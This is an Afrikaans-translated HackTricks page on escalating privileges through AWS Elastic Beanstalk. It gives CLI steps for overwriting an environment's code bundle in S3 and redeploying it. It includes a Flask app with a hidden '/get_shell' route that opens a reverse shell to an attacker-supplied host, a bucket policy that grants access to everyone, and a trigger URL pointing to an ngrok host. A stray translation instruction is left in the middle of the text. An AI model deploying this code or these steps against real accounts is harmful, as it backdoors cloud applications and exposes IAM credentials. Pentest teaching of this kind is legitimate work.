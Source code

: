 # AWS - Elastic Beanstalk Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Elastiese Beanstalk

Meer **inligting oor Elastiese Beanstalk** in:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Om sensitiewe aksies in Beanstalk uit te voer, sal jy 'n **baie sensitiewe toestemmings in baie verskillende dienste** moet hê. Jy kan byvoorbeeld die toestemmings wat aan **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`** gegee word, nagaan.
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, S3-skryftoestemmings & baie ander

Met **skryftoestemmings oor die S3-emmer** wat die **kode** van die omgewing bevat en toestemmings om die toepassing **te herbou** (dit vereis `elasticbeanstalk:RebuildEnvironment` en 'n paar meer wat verband hou met `S3`, `EC2` en `Cloudformation`), kan jy die **kode wysig**, die app **herbou** en die volgende keer as jy die app toegang gee, sal dit jou nuwe kode **uitvoer**, wat die aanvaller in staat stel om die toepassing en die IAM-rollegitimasie daarvan te kompromitteer.

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, en meer...

Die genoemde plus verskeie **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** en **`elasticloadbalancing`** toestemmings is nodig om 'n rou Elastic Beanstalk scenario van die begin af te skep.

* Skep 'n AWS Elastic Beanstalk aansoek:

```bash
aws elasticbeanstalk create-application --application-name MyApp
```

* Skep 'n AWS Elastic Beanstalk omgewing ([**ondersteunde platforms**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

As 'n omgewing reeds geskep is en jy **nie 'n nuwe een wil skep nie**, kan jy net die bestaande een **opdateer**.

* Verpak jou aansoek-kode en afhanklikhede in 'n ZIP-lêer:

```python
zip -r MyApp.zip .
```

* Laai die ZIP-lêer op na 'n S3-emmer:

```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```

* Skep 'n AWS Elastic Beanstalk aansoek weergawe:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Implementeer die toepassingsweergawe na jou AWS Elastic Beanstalk-omgewing:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

Eerstens moet jy 'n **wettige Beanstalk-omgewing** skep met die **kode** wat jy in die **slagoffer** wil uitvoer volgens die **vorige stappe**. Moontlik 'n eenvoudige **zip** wat hierdie **2 lêers** bevat:

{% tabs %}
{% tab title="undefined" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="vereistes.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Sodra jy **jou eie Beanstalk-omgewing** met jou rev shell het, is dit tyd om dit na die **slagoffers**-omgewing te **migreer**. Om dit te doen, moet jy die **Bucket-beleid** van jou Beanstalk S3-bucket opdateer sodat die **slagoffer daartoe toegang kan kry** (Let daarop dat dit die Bucket sal **open** vir **ALMAL**):

```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```

Die volgende is inhoud uit 'n hakboek oor hak tegnieke. Die volgende inhoud is uit die lêer /hive/hacktricks-cloud/pentesting-cloud/aws-pentesting/aws-privilege-escalation/aws-elastic-beanstalk-privesc.md. Vertaal die relevante Engelse teks na Afrikaans en gee die vertaling terug met presies dieselfde markdown- en html-sintaks. Moenie dinge soos kode, hak tegniek name, hak woord, wolk/SaaS platform name (soos Workspace, aws, gcp...), die woord 'leak', pentesting, en markdown etikette vertaal nie. Moenie enige ekstra dinge byvoeg behalwe die vertaling en markdown sintaks nie.

{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528
```
{% endcode %}

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
